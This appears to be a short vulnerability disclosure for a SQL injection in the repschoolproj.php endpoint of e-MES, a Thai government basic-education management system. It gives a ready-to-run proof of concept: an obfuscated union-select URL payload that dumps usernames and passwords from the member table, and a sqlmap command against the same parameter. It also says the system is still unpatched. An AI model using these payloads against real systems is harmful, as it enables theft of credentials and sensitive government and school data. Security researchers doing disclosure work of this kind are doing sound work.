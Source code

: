 `Describe：`
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being  

`Official documents`
>https://www.br2.go.th/attachments/article/2902/%E0%B9%81%E0%B8%9A%E0%B8%9A%E0%B8%A3%E0%B8%B2%E0%B8%A2%E0%B8%87%E0%B8%B2%E0%B8%99%E0%B8%82%E0%B9%89%E0%B8%AD%E0%B8%A1%E0%B8%B9%E0%B8%A5%E0%B9%83%E0%B8%99%E0%B8%A3%E0%B8%B0%E0%B8%9A%E0%B8%9A%20e-MES.pdf

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648 /* */uNiOn /* */select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#  
> This exp can get the login account and password of the e-mes system  
`photo proof`
![图片](https://user-images.githubusercontent.com/110643835/188271982-779a174a-41e3-47dd-b9eb-3ed62e59b4bb.png)
![图片](https://user-images.githubusercontent.com/110643835/188272051-c3890348-ee21-472e-b10e-2519c4ffd64a.png)


Or use sqlmap for injection
> POC: sqlmap.py -u "http://localhost/eme/repschoolproj.php?claster=school&idarea=648*"

